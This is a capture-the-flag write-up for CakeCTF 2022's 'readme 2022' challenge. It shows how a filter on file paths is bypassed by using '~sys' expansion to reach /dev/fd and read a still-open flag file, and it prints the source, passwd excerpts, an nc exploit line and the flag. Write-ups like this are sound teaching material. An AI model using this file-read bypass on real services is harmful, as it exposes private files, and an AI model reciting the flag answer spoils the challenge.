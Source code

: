 # readme 2022

<span id="-misc"></span><span id="misc" class="tag">misc</span>

The code receives a filename via a TCP socket and runs it through
`os.path.expanduser`. This function expands the `~` character to the
current user's home. Another user can be supplied like this `~root`,
which will be expanded to `/root`.

The current working directory is `/app` and `..` sequences nor absolute
paths can be used.

    try:
        f = open("/flag.txt", "r")
        print(f.fileno())
    except:
        print("[-] Flag not found. If this message shows up")
        print("    on the remote server, please report to amdin.")

    if __name__ == '__main__':
        filepath = input("filepath: ")
        if filepath.startswith("/"):
            exit("[-] Filepath must not start with '/'")
        elif '..' in filepath:
            exit("[-] Filepath must not contain '..'")

        filepath = os.path.expanduser(filepath)
        print("Expanded: " + filepath)
        try:
            print(open(filepath, "r").read())
        except:
            exit("[-] Could not open file")

At first I looked at the source code for `os.path.expanduser` but
couldn't really find anything useful. I then took a look at my own
`/etc/passwd` and was surprised to see that there were a few users whose
home is `/`:

    root:x:0:0::/root:/bin/bash
    bin:x:1:1::/:/usr/bin/nologin
    daemon:x:2:2::/:/usr/bin/nologin
    mail:x:8:12::/var/spool/mail:/usr/bin/nologin
    ftp:x:14:11::/srv/ftp:/usr/bin/nologin
    <snip>

Unfortunately, there were no users with such a home in the container's
`/etc/passwd`, so it wasn't as simple as `~bin/flag.txt`. There were a
few possibly interesting directories, however. I thought that maybe for
some reason one of these directories could have a symlink back to `/`,
so I listed all symlinks they contained.

    ctf@acac7d7c8065:/app$ find /root /usr/sbin /bin /dev /usr/games /var/cache/man /var/spool/lpd /var/mail /var/spool /var/www /var/backups /var/list /var/run/ircd /var/lib/gnats /home/ctf -type l 2>/dev/null
    /usr/sbin/addgroup
    /usr/sbin/vigr
    /usr/sbin/delgroup
    /usr/sbin/cpgr
    /usr/sbin/rmt
    /bin/pidof
    /bin/sh
    /bin/ypdomainname
    /bin/domainname
    /bin/nisdomainname
    /bin/dnsdomainname
    /bin/rbash
    /dev/core
    /dev/stderr
    /dev/stdout
    /dev/stdin
    /dev/fd
    /dev/ptmx
    /var/spool/mail

`/dev/fd` immediately caught my attention. The script calls `open` with
the flag right at the start and never actually closes the file. If
`/dev/fd` allows us to read any open file descriptor, this could be used
to read the flag.

Taking a look back at `/etc/passwd` we see that the user `sys`' home is
`/dev`, so that's the user we need to use.

    sys:x:3:3:sys:/dev:/usr/sbin/nologin

After trying a few numbers, I found that 6 was the flag's file
descriptor.

    readme2022$ nc misc.2022.cakectf.com 12022 <<< '~sys/fd/6'
    filepath: CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}

The flag is: `CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}`.
